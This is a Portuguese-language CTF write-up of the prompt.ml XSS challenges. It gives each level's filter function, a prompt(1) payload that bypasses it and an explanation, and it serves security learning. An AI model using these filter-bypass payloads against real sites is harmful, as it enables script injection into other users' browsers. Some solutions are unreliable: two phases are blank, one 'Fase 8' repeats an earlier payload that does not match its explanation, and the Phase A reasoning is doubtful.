 # Cross-site scripting (XSS) 
###### Solved by @Mayaracar2
> This is a CTF about JavaScript analysis, xss script
## Desafio: Prompt.ml
### Sobre o desafio:
O prompt.ml é uma série de desafios de XSS (Cross-Site Scripting) organizada em níveis, cada um apresentando uma função escape() diferente que impõe filtros específicos na entrada do usuário, e tem como objetivo explorar vulnerabilidades para conseguir rodar código JavaScript, usando o prompt(1) como prova de que o XSS foi bem sucedido.
- [Página do desafio](https://prompt.ml/0)
  
## Soluções:
### Fase 0
Este é o código dado:

```bash
 function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}        
```
#### Análise:

A função gera um elemento `<input>` com o valor recebido diretamente, sem escapar caracteres especiais. Isso permite que um atacante quebre o atributo `value` e injete código arbitrário.

#### Payload usado:

```bash
"><script>prompt(1)</script>`
```

#### Por que funciona?

-Fecha o atributo value usando `>`, escapando do contexto onde o conteúdo deveria ser tratado apenas como texto.

-Em seguida, ele insere uma tag `<script>`, que o navegador reconhece e executa como código JavaScript, visto que a função não realiza nenhum filtro ou escape dos caracteres especiais (<, >, "), o navegador interpreta a injeção como parte do HTML, em vez de simples texto, permitindo a execução do script malicioso.

### Fase 1
Este é o código dado:

```bash
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}         
```
#### Análise:

Neste código, a função recebe um input e remove todas as tags HTML usando uma expressão regular (stripTagsRE).

#### Payload usado:

```bash
<svg/onload=prompt(1)
```

#### Por que funciona?

`<svg/`: A regex falha em detectá-lo como tag devido à sua sintaxe incomum, porém passa "ileso".

`onload=prompt(1)`: Atributo de evento JavaScript que é disparado, executando o prompt(1).

### Fase 2
Este é o código dado:

```bash
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}        
```

#### Análise:

Nesse código, tem uma função de escape que remove caracteres específicos como `(=` e `()` de uma string de entrada.

#### Payload usado:

```bash
<svg><script>prompt&#40;1)</script>
```

#### Por que funciona?

`<svg>`: Utilizado como uma "camuflagem", na qual a tag é permitida pelo navegador, ativando o modo SVG e dentro dele, é possivel rodar o <script> normalmente.

`prompt&#40;1)`: O `&#40;` é decodificado pelo navegador como `(` , com base no  [HTML entities](https://www.freeformatter.com/html-entities.html).

### Fase 3
Este é o código dado:

```bash
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

#### Análise:

Nesse código, a função de escape adiciona o input dentro de um comentário HTML, evitando a execução de scripts maliciosos, substituindo `->`por `_`.

#### Payload usado:

```bash
--!><svg onload=prompt(1)
```

#### Por que funciona?

`--!>`: Como o código não aceita ->, é preciso fechar o comentário para depois o payload ser executado.

`<svg onload=prompt(1)>`: Executa o JavaScript quando o elemento é carregado.

### Fase 4
Este é o código dado:

```bash

       
```
#### Payload usado:

```bash

```

#### Por que funciona?

### Fase 5
Este é o código dado:

```bash
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
}            
```

#### Análise:

Este código, impede de gerar tags devido o bloqueio do `>`, bloqueia também qualquer atributo de evento como o anload=, onclick=, onerror=, devido o `on.+?`, além de bloquear a palavra `focus`.

#### Payload usado:

```bash
"type=image src onerror
="prompt(1)
```

#### Por que funciona?

- O filtro usou uma regex fraca, na qual o atacante inseriu uma quebra de linha entre o nome do evento e o sinal `=`.

- O navegador ignora a quebra e interpreta como atributo válido `(onerror=)`.

- O onerror dispara quando a imagem não carrega e o `prompt(1)` é executado.

### Fase 6
Este é o código dado:

```bash
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}          
```

#### Análise:

No código, a função recebe uma entrada no formato `URL#JSON`, gerando um formulário HTML a partir dos dados do JSON e realizando automaticamente o envio por POST.

#### Payload usado:

```bash
javascript:prompt(1)#{"action":1}
```

#### Por que funciona? 

- Quando o `javascript:` é insrido em um link (ou na barra do navegador), tudo depois de javascript: é avaliado como código JavaScript.

- O navegador interpreta apenas a parte antes do # como código JavaScript.

- Tudo após o # é tratado como fragmento da URL (hash), e o navegador não executa isso como código.

### Fase 7
Este é o código dado:

```bash
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}        
```

#### Análise:

No código a função recebe uma string com títulos separados por # e limita cada título a cada 12 caracteres e transforma cada um em uma tag <p> com classe comment e atributo title. Depois junta tudo em uma string com quebra de linha.

#### Payload usado:

```bash
"><svg/m=#"onload='/*#*/prompt(1)'
```

#### Por que funciona? 

`>`: fecha o value

`<svg/m=#"`: Entra no svg e para confundir/fechar atributos anteriores.

`onload='prompt(1)'`: Usado para disparar o prompt(1), logo depois da tag ser carregada.

`/*#*/`: Comentário usado para burlar filtros de caracteres, ele é necessário porque o navegador ignora o comentário, porém ele quebra o padrão que o filtro procura.

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}        
```

#### Análise:

Nesse código, a função escape remove quebra de linh, aspas e alguns caracteres HTML, inserindo a string dentro de um comentário em `<script>` com um console.log.

#### Payload usado:

```bash
javascript:prompt(1)#{"action":1}
```
(executado no console)

#### Por que funciona? 

Funciona porque `\u2028` em JavaScript é interpretado como uma quebra de linha, portanto encerra o comentário e passa a executar o prompt(1).

### Fase 8
Este é o código dado:

```bash
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```

#### Análise:

O código procura qualquer tag HTML que começa com `<` e é seguido de letra, adicionando um `_` depois do `<`.

#### Payload usado:

```bash
<ſvg/onload=&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;>
```
#### Por que funciona? 

`ſvg`: Um caracter unicode (U+ 017F) que visualmente parece com s, então é aceito como equivalente.

`onload=`: Dispara quando o elemento é carregado.

`&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#49;&#41;`: São entidades númericas HTML que representa caracteres ASCII, que quando interpretado, converte para texto normal.

`&#112;` → p

`&#114;` → r

`&#111;` → o

`&#109;` → m

`&#112;` → p

`&#116;` → t

`&#40;` → (

`&#49;` → 1

`&#41;` → )

### Fase A
Este é o código dado:

```bash
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}        
```
#### Análise:

A função aplica codificação e manipulações no input para bloquear o uso de prompt, mas insere o resultado diretamente dentro de uma tag <script>.

#### Payload usado:

```bash
p'rompt(1)
```
#### Por que funciona? 

A sequência `p'rompt(1)` é usada para driblar filtros básicos que bloqueiam diretamente a palavra prompt e ao inserir um caractere extra, como `'`, dentro do termo, o filtro não identifica a palavra completa e permite que ela passe. 

### Fase B
Este é o código dado:

```bash
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}        
```

#### Análise:

A função tenta higienizar o valor recebido (como um nome de usuário), transforma esse valor em JSON e depois o insere dentro de uma tag <script>.

#### Payload usado:

```bash
"(prompt(1))in"
```

#### Por que funciona? 

Funciona porque o filtro não bloqueia o conteúdo, e dentro de uma tag `<script>` o JavaScript interpreta `(prompt(1))` como uma chamada de função válida. O uso de `in` garante que o código continue sendo uma expressão válida, evitando que o script quebre.

### Fase C
Este é o código dado:

```bash
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}        
```
#### Análise:

A função escape codifica o valor recebido com `encodeURIComponent`, elimina caracteres de aspas simples e troca qualquer ocorrência da palavra prompt por alert. Em seguida, insere esse conteúdo diretamente dentro de uma tag `<script>`.

#### Payload usado:

```bash
eval(630038579..toString(30))(1)
```

#### Por que funciona? 

Esse código funciona porque o número `630038579` convertido para base 30 vira a string `"eval"`. Assim, ele reconstroi dinamicamente a função `eval` e a executa com argumento `1`.

### Fase D
Este é o código dado:

```bash
function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}        
```
#### Análise:

O código recebe um JSON com a URL de uma imagem, aplica configurações padrão por meio de extend, faz uma validação simplificada da URL usando regex e depois gera uma tag substituindo diretamente `{{source}}`.

#### Payload usado:

```bash
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}
```

#### Por que funciona? 

Isso funciona porque o `extend()` permite poluir o `__proto__`, o que injeta a propriedade source maliciosa dentro de config. A regex de validação não é suficiente para bloquear isso, e o valor injetado vai parar dentro do src da `<img>`, ativando o onerror.

### Fase E
Este é o código dado:

```bash

```
#### Análise:

#### Payload usado:

```bash

```

#### Por que funciona? 

### Fase F
Este é o código dado:

```bash
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}        
```
#### Análise:

No código, a função escape recebe um texto no formato `texto1#texto2#texto3...` e realiza várias operações para gerar conteúdo HTML estruturado:

- Remoção de caracteres especiais:

Inicialmente, todos os asteriscos (*) presentes no input são eliminados, evitando que eles interfiram na formatação ou no conteúdo dos parágrafos gerados.

- Divisão do texto em segmentos:

O input é separado usando o caractere `#` como delimitador, cada pedaço entre os # se torna um segmento independente que será transformado em um parágrafo.

- Geração de parágrafos HTML:

Para cada segmento criado, a função gera uma tag `<p>` no HTML.

Cada parágrafo recebe dois atributos especiais:

`title`: contém os primeiros 15 caracteres do segmento e esses caracteres não passam por sanitização, ou seja, são inseridos diretamente no HTML.

`data-comment`: contém um JSON seguro no formato {"id": índice}, em que o índice representa a posição do segmento na lista.

Dessa forma, a função transforma um texto delimitado por `#` em múltiplos parágrafos HTML, cada um com metadados associados de forma estruturada e segura (para o JSON), mas deixando o conteúdo textual parcialmente exposto no atributo title.

#### Payload usado:

```bash
"><svg><!--#--><script><!--#-->prompt(1<!--#-->)</script>
```

#### Por que funciona? 

- O filtro da função escape não impede a injeção, porque ele só remove `*` e limita o tamanho do título, não escapa caracteres especiais como `" ou <`, o payload fecha o atributo title `(">)` e insere tags diretamente no HTML.

- Os comentários HTML `<!--#-->` são ignorados pelo navegador, mas enganam o filtro, permitindo que o `prompt(1)` seja executado sem ser detectado.

## Conclusão:

O desafio Prompt.ml demonstra como filtros superficiais e funções de escape mal implementadas podem ser contornados de diversas formas, permitindo a execução de código JavaScript malicioso e evidenciando a importância de validação e escaping rigorosos em todos os contextos.

